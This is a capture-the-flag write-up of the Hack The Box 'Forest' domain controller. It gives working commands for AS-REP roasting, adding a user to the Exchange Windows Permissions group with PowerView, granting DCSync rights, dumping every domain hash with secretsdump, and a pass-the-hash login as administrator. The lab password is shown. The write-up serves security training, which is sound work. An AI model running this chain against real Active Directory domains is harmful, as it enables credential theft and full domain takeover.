This box is rated easy difficulty on HTB. It involves us enumerating LDAP through anonymous binds, creating a wordlist that can be used to AS-REP Roast a service account. After cracking the service account's NTLM hash offline, we discover that they belong to the Account Operators group and are able to add users to the Exchange Windows Permissions group. Once apart of that, we abuse WriteDACL privileges to perform a DCSync attack and dump all domain hashes.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the typical AD things.

```
$ sudo nmap -sCV 10.129.21.90 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-18 23:11 -0400
Nmap scan report for 10.129.21.90
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-04-19 03:18:55Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m50s, deviation: 4h02m31s, median: 6m48s
| smb2-time: 
|   date: 2026-04-19T03:19:03
|_  start_date: 2026-04-19T03:17:05
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-04-18T20:19:02-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.62 seconds
```

Looks like we're dealing with a Windows machine with Active Directory components installed on it, more specifically, a Domain Controller. Default scripts shows that the Fully Qualified Domain Name for the machine is `forest.htb.local` which I'll add to my `/etc/hosts` file to help with any domain name resolution. Since there are no web servers running, I'll direct my initial enumeration efforts towards SMB and LDAP to get a basic understanding of the domain.

## Service Enumeration
Using Netexec to test for Null/Guest authentication over SMB fails, leaving us with only LDAP for reconnaissance.



### LDAP Anonymous Binds
Checking LDAP for anonymous binds reveals that we're able to enumerate objects on the domain without authenticating. 

```
$ netexec ldap forest.htb.local -u '' -p '' --query "(objectClass=*)" ""
```



Parsing that output would take very long, so I want to get a list of usernames on the domain along with any interesting attributes they may have.

```
$ ldapsearch -x -H ldap://forest.htb.local -b "dc=htb,dc=local" "(objectClass=user)" > ldapusers.txt

$ grep -i '#' ldapusers.txt                 

# extended LDIF
#
# LDAPv3
# base <dc=htb,dc=local> with scope subtree
# filter: (objectClass=person)
# requesting: ALL
#
# Guest, Users, htb.local
# DefaultAccount, Users, htb.local
# FOREST, Domain Controllers, htb.local
# EXCH01, Computers, htb.local
# Exchange Online-ApplicationAccount, Users, htb.local
# SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}, Users, htb.local
# SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}, Users, htb.local
# SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}, Users, htb.local
# DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}, Users, htb.loc
# Migration.8f3e7716-2011-43e4-96b1-aba62d229136, Users, htb.local
# FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042, Users, htb.local
# SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}, Users, htb.local
# SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}, Users, htb.local
# SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}, Users, htb.local
# HealthMailboxc3d7722415ad41a5b19e3e00e165edbe, Monitoring Mailboxes, Microsof
# HealthMailboxfc9daad117b84fe08b081886bd8a5a50, Monitoring Mailboxes, Microsof
# HealthMailboxc0a90c97d4994429b15003d6a518f3f5, Monitoring Mailboxes, Microsof
# HealthMailbox670628ec4dd64321acfdf6e67db3a2d8, Monitoring Mailboxes, Microsof
# HealthMailbox968e74dd3edb414cb4018376e7dd95ba, Monitoring Mailboxes, Microsof
# HealthMailbox6ded67848a234577a1756e072081d01f, Monitoring Mailboxes, Microsof
# HealthMailbox83d6781be36b4bbf8893b03c2ee379ab, Monitoring Mailboxes, Microsof
# HealthMailboxfd87238e536e49e08738480d300e3772, Monitoring Mailboxes, Microsof
# HealthMailboxb01ac647a64648d2a5fa21df27058a24, Monitoring Mailboxes, Microsof
# HealthMailbox7108a4e350f84b32a7a90d8e718f78cf, Monitoring Mailboxes, Microsof
# HealthMailbox0659cc188f4c4f9f978f6c2142c4181e, Monitoring Mailboxes, Microsof
# Sebastien Caron, Exchange Administrators, Information Technology, Employees, 
# Lucinda Berger, IT Management, Information Technology, Employees, htb.local
# Andy Hislip, Helpdesk, Information Technology, Employees, htb.local
# Mark Brandt, Sysadmins, Information Technology, Employees, htb.local
# Santi Rodriguez, Developers, Information Technology, Employees, htb.local
# search reference
# search reference
# search reference
# search result
# numResponses: 34
# numEntries: 30
# numReferences: 3
```

Grepping for lines that begin with the '#' character seems to give us a list of objects on the domain that are apart of the person objectClass. Towards the bottom we discover five names for various department employees. Seeing as how there are already tools made to help us enumerate AD, I'll use Impacket's GetADUsers.py script to create a wordlist of user accounts on the domain.

```
$ impacket-GetADUsers -all -dc-ip 10.129.21.90 htb.local/ | awk '{print $1}' > accountnames.txt
```

## AS-REP Roasting
I spend some more time going through the attributes but don't find anything else too useful for the time being. My next step is to test if these user accounts are AS-REP Roastable, namely if they have the Kerberos Pre-Authentication security feature disabled.

If you're unfamiliar with this technique - Attackers can perform AS-REP roasting when an Active Directory account has "Do not require Kerberos pre-authentication" enabled. By sending an authentication request to the Kerberos Key Distribution Center (KDC) using only a username, the server returns an AS-REP response encrypted with the user's password-derived key. We can then capture this response and offline crack the hash to recover the account's plaintext password.

I will use Impacket's GetNPUsers.py script to capture hashes if applicable here.

```
$ impacket-GetNPUsers -dc-ip 10.129.21.90 -usersfile accountnames.txt -no-pass htb.local/
```



### Initial Foothold
That returns one successful line for the svc-alfresco account. After sending that hash over to Hashcat or JohnTheRipper to get the plaintext variant, we can verify it works over SMB.



Awesome, I also test other accounts to see if they're Kerberoastable since we have credentials now, but this fails. Luckily, it looks like this service account is apart of the Remote Management group, meaning we're able to WinRM onto the machine to get a shell.



I carry out this step with the help of [Evil-WinRM](https://www.kali.org/tools/evil-winrm/) and also grab the user flag under their Desktop folder.



## Privilege Escalation
Light enumeration on the filesystem shows one other user besides the Administrator named Sebastien. Going about the usual routes of checking for special privileges, binaries prone to service hijacking, and PowerShell history files does not return anything interesting.

I do notice that our service account belongs to the Privileges IT Accounts and Account Operators, making me think that we could potentially abuse ACLs to pivot and escalate privileges.



### Mapping AD with BloodHound
I fire up Bloodhound in order to better map our permissions. Attempting to upload SharpHound to the machine threw a .NET version error since this box is relatively old, so I opted to swap over to using the bloodhound-python collector.

```
$ bloodhound-python -c all -d htb.local -u 'svc-alfresco' -p 's3rvice' -ns 10.129.21.90
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Testing resolved hostname connectivity dead:beef::29ae:f671:64e6:19e4
INFO: Trying LDAP connection to dead:beef::29ae:f671:64e6:19e4
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Testing resolved hostname connectivity dead:beef::29ae:f671:64e6:19e4
INFO: Trying LDAP connection to dead:beef::29ae:f671:64e6:19e4
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 17S
```

Once BloodHound ingested all of the collected JSON files, I check the service account's outbound object control permissions which reveals a powerful privilege.



### Adding Group Members
Our current user svc-alfresco is apart of the Account Operators group, which in turn has _GenericAll_ permissions over a ton of other objects. Using the pathfinding tool to search for a link between the service account and administrator shows that we are able to add ourselves to the Exchange Windows Permissions group in order to obtain _WriteDACL_ privileges over the domain, in turn allowing us to perform a DCSync attack to dump NTLM hashes.

A DCSync attack is when an attacker impersonates a domain controller to request password data from Active Directory via replication. This lets us extract password hashes (like for admins) without directly accessing the domain controller.



To carry out this attack, I first upload and import PowerSploit's [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script so that I'm able to add the service account to that Exchange group. This could also be done over Linux, but this is what I am used to doing.

```
$ . .\powerview.ps1

$ Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members 'svc-alfresco'

$ Get-DomainGroupMember -Identity "Exchange Windows Permissions"
```



### DCSync Attack
Once we have confirmed our presence in the Exchange group, we need to create a new PowerShell credential that can be used along with the `Add-DomainObjectAcl` cmdlet. For some reason, this kept hanging and even when it did work, I'd be removed from the group due to a cleanup script. In the end, I decided to create a PS one-liner that could be ran immediately without any errors.

```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Finally, we could use Impacket's secretsdump.py script to collect all domain hashes, including the administrator's.

```
$ impacket-secretsdump svc-alfresco:s3rvice@forest.htb.local
```



Using Evil-WinRM in a Pass-The-Hash attack allows us to grab a shell on the system and collect the final flag under their Desktop folder, completing this challenge. 

```
$ evil-winrm -i forest.htb.local -u administrator -H '[REDACTED]'
```



Overall, this was a fun beginner-ish box for Active Directory that steered away from the typical things we'd see like Kerberoasting. I hope this was helpful to anyone following along or stuck and happy hacking!
